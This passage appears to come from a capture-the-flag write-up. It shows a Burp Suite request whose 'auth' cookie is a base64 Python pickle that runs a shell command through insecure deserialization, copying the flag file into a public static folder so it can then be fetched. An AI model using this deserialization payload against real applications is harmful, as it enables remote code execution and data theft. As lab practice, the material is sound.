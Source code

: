 ![](attachment/387b7511522059cf92e62e6236bd97ed.png)

![](attachment/288c0111ef85bfc4ea6c7c73f9ef2820.png)

Send request with crafted cookie in burp suite

> [!NOTE]
> Don't change cookie in browser, it will crash the app

```http
GET /home HTTP/1.1
Host: 83.136.253.102:35117
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://83.136.253.102:35117/
Connection: close
Cookie: auth=gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFjcCAvZmxhZy50eHQgL3Byb2Mvc2VsZi9jd2QvYXBwbGljYXRpb24vc3RhdGljL2pzlIWUUpQu
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

Get the flag

> http://83.136.253.102:35117/static/js/flag.txt

![](attachment/b7f3fb95af34abb69e53d9aea7fd91a4.png)
